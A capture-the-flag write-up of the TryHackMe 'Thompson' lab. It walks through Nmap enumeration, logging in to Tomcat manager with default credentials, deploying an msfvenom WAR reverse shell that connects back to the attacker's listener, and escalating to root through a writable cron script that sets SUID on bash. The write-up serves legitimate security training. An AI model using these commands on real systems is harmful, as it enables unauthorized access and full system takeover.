 # TryHackMe
------------------------------------
### IP: 10.10.97.171
### Name: Thompson
### Difficulty: Easy
--------------------------------------------

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the --min-rate 10000 flag to speed things up. I'll also use the -sC and -sV to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Thompson]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.97.171
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-13 08:10 CDT
Nmap scan report for 10.10.97.171
Host is up (0.21s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc052481987eb8db0592a6e78eb02111 (RSA)
|   256 60c840abb009843d46646113fabc1fbe (ECDSA)
|_  256 b5527e9c019b980c73592035ee23f1a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.48 seconds
```

Looking at the page on port 8080 we find an Apache Tomcat 8.5.5 page

![thompson_site.png](../assets/thompson_assets/thompson_site.png)

Using Feroxbuster we disciver the `/manager` endpoint:

![thompson_dirs.png](../assets/thompson_assets/thompson_dirs.png)

This page prompts a login:

![thompson_login.png](../assets/thompson_assets/thompson_login.png)

And luckily for us we can use the default Tomcat credentials `tomcat:s3cret` to login:

![thompson_in.png](../assets/thompson_assets/thompson_in.png)

From here we should be able to upload a malicious `.war` file to spawn a reverse shell.

![thompson_war.png](../assets/thompson_assets/thompson_war.png)

### Exploitation

We can create the file using msfvenom:

```
┌──(ryan㉿kali)-[~/THM/Thompson]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.2.0.125 LPORT=443 -f war > shell.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes
```

We can upload and then deploy it, and view it on the site:

![thompson_shell_file.png](../assets/thompson_assets/thompson_shell_file.png)

Setting up a netcat listener we catch our shell when the file is clicked on:

```
┌──(ryan㉿kali)-[~/THM/Thompson]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.0.125] from (UNKNOWN) [10.10.97.171] 37876
whoami
tomcat
hostname
ubuntu
python -c 'import pty;pty.spawn("/bin/bash")'

tomcat@ubuntu:/$ 
```

We can then grab the user.txt flag in Jack's home directory:

![thompson_user_flag.png](../assets/thompson_assets/thompson_user_flag.png)

### Privilege Escalation

Looking at the other files in Jack's directory, we see an id.sh bash script and it's output of test.txt.

![thompson_files.png](../assets/thompson_assets/thompson_files.png)

id.sh is simply running the `id` command and saving it to test.txt. Looking at test.txt we can see the user issuing the `id` command is root.

Also worth noting, is the fact that id.sh has fully open permissions, meaning we can write to it.

We can confirm that id.sh is being run every minute by root as a cronjob by using `cat /etc/crontab`:

```
tomcat@ubuntu:/home/jack$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
```

Lets change the id.sh script to set the SUID bit on bash, which will be executed by root, and then drop into a root shell ourselves:

```
tomcat@ubuntu:/home/jack$ echo '/bin/chmod 4755 /bin/bash' > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
/bin/chmod 4755 /bin/bash
```

We can then wait one minute and run `/bin/bash -p` and we will drop into a root shell:

```
tomcat@ubuntu:/home/jack$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# id
uid=1001(tomcat) gid=1001(tomcat) euid=0(root) groups=1001(tomcat)
```

From here we can grab the final flag:

![thompson_root_flag.png](../assets/thompson_assets/thompson_root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------
